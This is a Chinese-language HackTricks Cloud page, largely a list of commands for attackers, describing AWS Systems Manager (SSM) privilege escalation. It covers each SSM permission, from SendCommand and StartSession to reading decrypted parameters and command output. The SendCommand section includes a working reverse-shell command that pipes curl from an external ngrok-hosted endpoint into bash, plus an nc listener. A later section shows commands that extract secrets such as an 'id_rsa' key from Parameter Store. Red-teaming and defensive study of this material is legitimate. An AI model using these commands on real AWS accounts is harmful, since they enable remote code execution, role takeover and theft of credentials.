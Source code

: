# AWS - SSM Privesc

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## SSM

有关 SSM 的更多信息，请查看：

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

具有权限 **`ssm:SendCommand`** 的攻击者可以 **在运行 Amazon SSM Agent 的实例中执行命令** 并 **危害其中运行的 IAM 角色**。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
在您使用此技术在已被攻陷的 EC2 实例中提升权限的情况下，您可以通过以下方式在本地捕获 rev shell：
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在影响：** 直接提升权限到附加在运行实例上的 EC2 IAM 角色，这些实例运行着 SSM 代理。

### `ssm:StartSession`

拥有权限 **`ssm:StartSession`** 的攻击者可以 **在运行 Amazon SSM 代理的实例中启动类似 SSH 的会话**，并 **破坏其中运行的 IAM 角色**。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
要开始会话，您需要安装 **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**潜在影响：** 直接提升权限到附加到运行实例的 EC2 IAM 角色，这些实例运行着 SSM 代理。

#### 提升权限到 ECS

当 **ECS 任务** 以 **`ExecuteCommand` 启用** 运行时，具有足够权限的用户可以使用 `ecs execute-command` 在容器内 **执行命令**。\
根据 [**文档**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)，这是通过在您用来启动“_exec_”命令的设备与目标容器之间创建安全通道来完成的，使用 SSM 会话管理器。（SSM 会话管理器插件是实现此功能所必需的）\
因此，具有 `ssm:StartSession` 权限的用户将能够通过运行以下命令 **在启用该选项的 ECS 任务中获取 shell**：
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**潜在影响：** 直接提升权限到附加到运行任务的 `ECS` IAM 角色，且启用了 `ExecuteCommand`。

### `ssm:ResumeSession`

拥有权限 **`ssm:ResumeSession`** 的攻击者可以在运行 Amazon SSM Agent 的实例中重新**启动 SSH 类会话**，并且在**断开**的 SSM 会话状态下**危害其中运行的 IAM 角色**。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在影响：** 直接提升权限到附加到运行实例的 EC2 IAM 角色，这些实例运行着 SSM Agents 并且有断开的会话。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

拥有上述权限的攻击者将能够列出 **SSM 参数** 并 **以明文读取它们**。在这些参数中，您经常可以 **找到敏感信息**，例如 SSH 密钥或 API 密钥。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在影响：** 在参数中找到敏感信息。

### `ssm:ListCommands`

拥有此权限的攻击者可以列出所有发送的 **命令**，并希望在其中找到 **敏感信息**。
```
aws ssm list-commands
```
**潜在影响：** 在命令行中查找敏感信息。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

拥有这些权限的攻击者可以列出所有发送的 **命令** 并 **读取生成的输出**，希望能找到 **敏感信息**。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在影响：** 在命令行输出中查找敏感信息。

### Codebuild

您还可以使用 SSM 进入正在构建的 codebuild 项目：

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
